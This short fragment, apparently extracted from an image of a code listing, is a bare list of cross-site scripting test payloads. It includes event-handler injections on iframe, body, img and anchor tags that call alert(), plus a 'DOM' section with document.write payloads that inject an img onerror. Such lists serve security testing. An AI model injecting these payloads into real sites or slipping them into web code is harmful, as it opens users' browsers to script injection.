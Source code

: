 <iframe/onload=alert(document.domain)></iframe>

<body/onload=alert(25)>
<img src=x onerror=alert(24)>
<a onclick=alert(18)>M
<a onmouseover=alert(17)>M

===DOM===
<input onclick="document.write('<img src=x onerror=alert(1)>');">
<input onclick="document.write('<img src=x onerror=alert(1)>');">







